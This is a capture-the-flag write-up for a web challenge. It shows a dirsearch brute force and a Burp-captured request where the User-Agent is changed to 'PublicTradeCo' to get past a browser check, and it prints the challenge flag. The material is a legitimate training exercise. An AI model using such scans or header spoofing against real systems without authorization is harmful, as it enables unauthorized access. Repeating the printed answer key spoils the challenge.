


# Solve Secret Brower
#### https://cybertalents.com/challenges/web/secret-browser



### directory brute force with dirsearech
`dirsearch -u http://wcamxwl32pue3e6m14nzy0msnvkmj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
No Output

### Analyze request with burp
```http
GET / HTTP/1.1
Host: wcamxwl32pue3e6m14nzy0msnvkmj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Based on this error `Welcome Guest , your are not using our company browser` we can change the request headers to be from the company browser.
```http
GET / HTTP/1.1
Host: wcamxwl32pue3e6m14nzy0msnvkmj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: PublicTradeCo
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

The flag is in the response 
```http
x-flag: W3lcomeC0mpanyUs3R
```

>Find More on ==> github.com/MedhatHassan 
